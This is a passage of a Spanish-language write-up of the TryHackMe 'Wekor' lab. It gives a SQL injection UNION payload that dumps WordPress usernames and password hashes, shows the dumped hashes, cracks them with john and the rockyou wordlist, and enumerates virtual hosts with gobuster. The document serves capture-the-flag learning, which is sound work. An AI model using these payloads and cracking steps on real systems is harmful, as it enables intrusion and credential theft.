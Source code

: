La información que nos interesa está en la tabla ```wp_users```.


* Payload: ```' UNION SELECT group_concat(user_login,0x3a,user_pass),2,3 from wordpress.wp_users-- -```

![SQLi](/images/THM/Wekor/80-sqli-wp-users.png)

```plaintext
admin:$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.
wp_jeffrey:$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10
wp_yura:$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/
wp_eagle:$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/
```
Con estos usuarios y hashes, lo siguiente es intentar crackear con la herramienta ```john```.


* ```john --wordlist=/usr/share/wordlists/rockyou.txt hash```

![SQLi](/images/THM/Wekor/85-hashes.png)

Ya con esta información, deberemos encontrar el panel de login de wordpress. 

Asumiendo que esta máquina sigue la estructura de TryHackMe, es posible que el vhost sea ```wekor.thm```. Con ello, podemos proceder a hacer un fuzzing de otros posibles subdominios. Se agrega este registro a ```/etc/hosts``` y posteriormente el escaneo con Gobuster.

* ```gobuster vhost -u http://wekor.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt```

![Vhost](/images/THM/Wekor/90-vhost-enumeration.png)

Se obtiene el subdominio ```site.wekor.thm``` en donde se visualiza un sitio con un mensaje en texto plano.

![Site](/images/THM/Wekor/92-site.wekor.thm.png)
